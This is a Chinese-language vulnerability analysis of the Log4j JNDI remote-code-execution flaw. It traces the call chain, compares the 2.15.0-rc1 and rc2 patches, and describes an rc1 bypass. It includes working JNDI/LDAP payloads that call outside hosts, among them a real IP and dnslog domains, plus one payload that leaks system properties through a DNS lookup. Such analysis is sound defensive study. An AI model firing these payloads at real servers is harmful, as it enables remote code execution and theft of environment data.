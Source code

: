 log4j rce

影响版本：

2.0-beta9 到 2.14.1

修复版本：

2.15.0-rc2

payload：

`${jndi:ldap://9zx4xu.dnslog.cn:1389/Exp}`

分析：

先来看原来没修的

## 2.14.1

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class log4j {
    private static final Logger logger = LogManager.getLogger(log4j.class);

    public static void main(String[] args) {
        logger.error("${jndi:ldap://49.232.128.44:1234/Exploit}");
    }
}
```

这里的调用链比较长，如下

```java
toSerializable:342, PatternLayout$PatternSerializer (org.apache.logging.log4j.core.layout)
toText:244, PatternLayout (org.apache.logging.log4j.core.layout)
encode:229, PatternLayout (org.apache.logging.log4j.core.layout)
encode:59, PatternLayout (org.apache.logging.log4j.core.layout)
directEncodeEvent:197, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
tryAppend:190, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
append:181, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
tryCallAppender:156, AppenderControl (org.apache.logging.log4j.core.config)
callAppender0:129, AppenderControl (org.apache.logging.log4j.core.config)
callAppenderPreventRecursion:120, AppenderControl (org.apache.logging.log4j.core.config)
callAppender:84, AppenderControl (org.apache.logging.log4j.core.config)
callAppenders:540, LoggerConfig (org.apache.logging.log4j.core.config)
processLogEvent:498, LoggerConfig (org.apache.logging.log4j.core.config)
log:481, LoggerConfig (org.apache.logging.log4j.core.config)
log:456, LoggerConfig (org.apache.logging.log4j.core.config)
log:63, DefaultReliabilityStrategy (org.apache.logging.log4j.core.config)
log:161, Logger (org.apache.logging.log4j.core)
tryLogMessage:2205, AbstractLogger (org.apache.logging.log4j.spi)
logMessageTrackRecursion:2159, AbstractLogger (org.apache.logging.log4j.spi)
logMessageSafely:2142, AbstractLogger (org.apache.logging.log4j.spi)
logMessage:2017, AbstractLogger (org.apache.logging.log4j.spi)
logIfEnabled:1983, AbstractLogger (org.apache.logging.log4j.spi)
error:740, AbstractLogger (org.apache.logging.log4j.spi)
main:42, log4j
```

断点打到PatternLayout#toSerializable

这里的event参数即为封装的日志事件，其中message参数包含我们的exploit。然后会调用this.formatters中的format方法

![image-20211211143838953](./images/image-20211211143838953.png)

format方法中会调用this.converter的format方法

![image-20211211151305638](./images/image-20211211151305638.png)

formatters如下，主要是每个formatter的converter属性不同，这里主要看MessagePatternConverter，因为是处理message即恶意参数的

![image-20211211150649037](./images/image-20211211150649037.png)

MessagePatternConverter#format

这里从event取出message后会拼接上workingBuilder，然后判断其中是否有连续的`${`字符，如果有则取出进行替换(其实就是解析${}中的内容)

![image-20211211152137585](./images/image-20211211152137585.png)

经过几个调用

```java
substitute:930, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:912, StrSubstitutor (org.apache.logging.log4j.core.lookup)
replace:467, StrSubstitutor (org.apache.logging.log4j.core.lookup)
```

到StrSubstitutor#substitute

这里内容比较多，就不贴图了，主要作用就是递归解析${}的内容，解析的函数在418行this.resolveVariable，此时varName为

`jndi:ldap://localhost:1234/Exploit`

```java
    private int substitute(final LogEvent event, final StringBuilder buf, final int offset, final int length, List<String> priorVariables) {
        ...
        String varValue = this.resolveVariable(event, varName, buf, startPos, pos);
    }
```

这里会调用resolver#lookup，并且支持的lookup调用在strLookupMap中，这里可以看到jndi

![image-20211211153508179](./images/image-20211211153508179.png)

先继续跟入Interpolator#lookup

这里会根据var的前四位来从strLookupMap中取对应的lookup实现，这里因为是`jndi:ldap://localhost:1234/Exploit`所以取出JndiLookup，然后在下面调用JndiLookup#lookup方法

![image-20211211153540919](./images/image-20211211153540919.png)

最终在JndiManager#lookup中完成jndi注入

![image-20211211153932982](./images/image-20211211153932982.png)

## 2.15.0-rc1

2.15.0-rc1版本主要是对PatternLayout#toSerializable中的this.formatters做了改动

可以看到MessagePatternConverter变成了MessagePatternConverter$SimpleMessagePatternConverter

![image-20211211154508254](./images/image-20211211154508254.png)

看一下他的format方法，这里并没有对${}进行提取解析，只是将它拼接到error的日志格式后了

![image-20211211154625352](./images/image-20211211154625352.png)

而真正解析的地方被放到了

MessagePatternConverter$LookupMessagePatternConverter中，但是之前formatters中根本就没有这个Converter，所以其实算是修复了

![image-20211211154815673](./images/image-20211211154815673.png)

除非手动构造一个，但是感觉这样有点鸡肋...不知道还有没有其他方法，这里用了4train师傅的构造

```java
public static void main(String[] args) {
        final Configuration config = new DefaultConfigurationBuilder().build(true);
        final MessagePatternConverter converter =
                MessagePatternConverter.newInstance(config, new String[] {"lookups"});
        final Message msg = new ParameterizedMessage("${jndi:ldap://ip:1234/rce}");
        final LogEvent event = Log4jLogEvent.newBuilder()
                .setLoggerName("MyLogger")
                .setLevel(Level.DEBUG)
                .setMessage(msg).build();
        final StringBuilder sb = new StringBuilder();
        converter.format(event, sb);
        System.out.println(sb);
    }
```

不过这里rc1中JndiManager#lookup中有规定运行的地址、类、以及协议，可以看到这里只允许ldap请求本地服务，基本上寄了

![image-20211211155829341](./images/image-20211211155829341.png)

但是官方后来又发布了2.15.0-rc2

其中一个补丁是在JndiManager#lookup中增加了捕获到异常后的返回处理

![image-20211211160025091](./images/image-20211211160025091.png)

还有一处是官方测试时添加的，那么可以猜测使用一些特殊字符放入jndi的uri中另程序进入异常，并且rc1中不会进行异常处理，以此绕过

![image-20211211160228781](./images/image-20211211160228781.png)

所以加个在ClassName前加个空格就好了，本地利用需要tomcat的包(支持BeanFactory、ELProcessor)或者其他gadget

![image-20211211160626836](./images/image-20211211160626836.png)

## 其他

今天看到其他师傅发的利用，意识到能用lookup信息泄露，比如

`${jndi:ldap://${sys:java.version}.7i3934.dnslog.cn:1099/}`

![image-20211212215217436](./images/image-20211212215217436.png)

还是这几个lookup实现

![image-20211212215658902](./images/image-20211212215658902.png)

比如sys

SystemPropertiesLookup#lookup，就能从System.getProperties()中取值

![image-20211212215815630](./images/image-20211212215815630.png)

EnvironmentLookup#lookup是从System.getenv()取值

![image-20211212220007210](./images/image-20211212220007210.png)

JavaLookup#lookup局限这几个

![image-20211212220152052](log4j_RCE.assets/image-20211212220152052.png)

浅蓝师傅还发现了如果使用了ResourceBundleLookup#lookup，可以读取properties配置文件

![image-20211212222047702](./images/image-20211212222047702.png)

但是strLookupMap中没有bundle这个key，应该不能直接触发，除非开发人员直接使用并且参数可控

`ResourceBundle.getBundle(bundleName).getString(bundleKey)`

参考：

https://xz.aliyun.com/t/10649

https://github.com/apache/logging-log4j2/compare/log4j-2.15.0-rc1...log4j-2.15.0-rc2

https://mp.weixin.qq.com/s/vAE89A5wKrc-YnvTr0qaNg
